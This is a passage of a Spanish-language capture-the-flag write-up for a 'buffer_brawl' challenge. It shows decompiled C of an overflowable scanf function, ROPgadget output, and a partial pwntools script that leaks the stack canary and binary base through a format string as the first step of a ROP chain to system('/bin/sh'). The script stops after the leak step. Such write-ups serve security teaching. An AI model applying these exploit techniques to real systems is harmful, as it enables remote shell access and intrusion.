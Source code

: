 ``` python
```

Bien, ahora necesitamos un buffer overflow para ganar una shell remota. Si dejamos la vida del stack en el juego a 13 exactamente nos lleva a una función stack_smash que acepta una entrada:

``` C
void stack_smash(void)

{
  long in_FS_OFFSET;
  undefined auStack_28 [24];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  puts("\nThe stack got dizzy! Now it\'s your time to win!");
  puts("Enter your move: ");
  __isoc99_scanf(&DAT_0010213d,auStack_28);
  if (local_10 == *(long *)(in_FS_OFFSET + 0x28)) {
    return;
  }
                    // WARNING: Subroutine does not return
  __stack_chk_fail();
}
```

Haremos un ROP, para llamar a system('/bin/sh'), podemos encontrar los gadgets con ROPGadget:

```
ROPgadget --binary /lib/x86_64-linux-gnu/libc.so.6| grep "pop rax ; ret"

0x00000000000436a4 : add byte ptr [rax - 0x75], cl ; add byte ptr [rbx - 0x75], bl ; pop rax ; ret
0x00000000000436a7 : add byte ptr [rbx - 0x75], bl ; pop rax ; ret
0x0000000000043047 : pop rax ; ret
0x00000000001027d1 : ror byte ptr [rax - 0x7d], 0xc4 ; pop rax ; ret
0x00000000000cd4f2 : sub al, 0x3b ; sub al, 0x75 ; pop rax ; ret
0x00000000000cd4f5 : sub al, 0x75 ; pop rax ; ret

 ROPgadget --binary /lib/x86_64-linux-gnu/libc.so.6| grep "pop rdi ; jmp rax"
0x000000000002d114 : pop rdi ; jmp rax
```

Script final:
``` python3 
from pwn import *
exe = context.binary = ELF("buffer_brawl")
libc = context.binary = ELF("/lib/x86_64-linux-gnu/libc.so.6")
# libc = ELF("./libc6_2.35-0ubuntu3.8_amd64.so")
# io = connect("buffer-brawl.chal.wwctf.com", 1337)
# io = connect("localhost",4444)
io = process(exe.path)

# 1.Obtener la direccion base del binario
def stack_leak(p):
    print(f"INPUT={p}")
    io.sendline(b"4")
    io.recvuntil(b"Right or left?\n")
    io.sendline(p)
    return io.recvline(keepends=False)

cookie, exe_leak = stack_leak(b"%11$p %13$p").split()
cookie = int(cookie[2:], 16)                              # Canario
exe_leak = int(exe_leak[2:], 16)                          # Direccion filtrada
exe.address = exe_leak - 0x1747                           # desplazamiento de la direccion de retorno a la base


```